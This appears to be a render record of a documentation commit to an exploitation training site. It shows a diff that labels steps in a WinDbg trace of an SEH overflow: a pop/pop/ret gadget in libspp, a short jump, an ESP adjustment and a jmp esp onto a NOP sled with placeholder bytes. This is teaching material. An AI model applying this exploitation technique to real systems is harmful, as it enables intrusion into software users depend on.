

Before and after one commit to s-lck/HolisticPwning, an MkDocs documentation site: the page built from docs/binary-exploitation/2-seh-overflow.md, in a window 1280 px wide and 1400 px high, scrolled down 31516 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Ajouts SEH

```diff
--- a/docs/binary-exploitation/2-seh-overflow.md
+++ b/docs/binary-exploitation/2-seh-overflow.md
@@ -1462,6 +1462,7 @@ cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
 libspp!pcre_exec+0x16460:
 1015a2f0 58              pop     eax
 #
+# P/P/R
 #
 0:009> r
 eax=00000000 ebx=00000000 ecx=1015a2f0 edx=77853b20 esi=00000000 edi=00000000
@@ -1482,6 +1483,7 @@ cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
 libspp!pcre_exec+0x16462:
 1015a2f2 c3              ret
 #
+# SHORT JUMP
 #
 0:009> t
 eax=77853b02 ebx=01c9f540 ecx=1015a2f0 edx=77853b20 esi=00000000 edi=00000000
@@ -1499,6 +1501,7 @@ eip=01c9ff56 esp=01c9f444 ebp=01c9f458 iopl=0         nv up ei pl zr na pe nc
 cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
 01c9ff56 eb06            jmp     01c9ff5e
 #
+# INCREMENTATION DE ESP
 #
 0:009> t
 eax=77853b02 ebx=01c9f540 ecx=1015a2f0 edx=77853b20 esi=00000000 edi=00000000
@@ -1511,7 +1514,8 @@ eip=01c9ff63 esp=01c9fc74 ebp=01c9f458 iopl=0         nv up ei ng nz na pe nc
 cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000286
 01c9ff63 ffe4            jmp     esp {01c9fc74}
 #
-# On arrive bien sur le shellcode
+# SHELLCODE
+#
 0:009> dd @esp L4
 01c9fc74  90909090 90909090 43434343 43434343
 0:009> t
```
